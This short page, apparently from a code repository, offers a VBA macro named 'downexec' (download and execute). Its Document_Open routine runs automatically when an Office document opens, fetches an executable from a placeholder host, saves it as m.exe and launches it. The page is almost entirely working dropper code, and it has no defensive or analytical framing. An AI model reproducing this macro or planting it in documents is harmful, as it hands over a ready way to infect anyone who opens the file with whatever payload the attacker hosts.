 # downexec
download and execute
Private Sub Document_Open()
    OpenSesame
End Sub

Sub OpenSesame()
    Dim xHttp: Set xHttp = CreateObject("Microsoft.XMLHTTP")
    Dim bStrm: Set bStrm = CreateObject("Adodb.Stream")
    xHttp.Open "GET", "http://<domain>/m.exe", False
    xHttp.Send
    
    With bStrm
        .Type = 1 '//binary
        .Open
        .write xHttp.responseBody
        .savetofile "m.exe", 2 '//overwrite
    End With
    
    Shell ("m.exe")
End Sub
//Find me on Twitter at @maxheadroomhaks
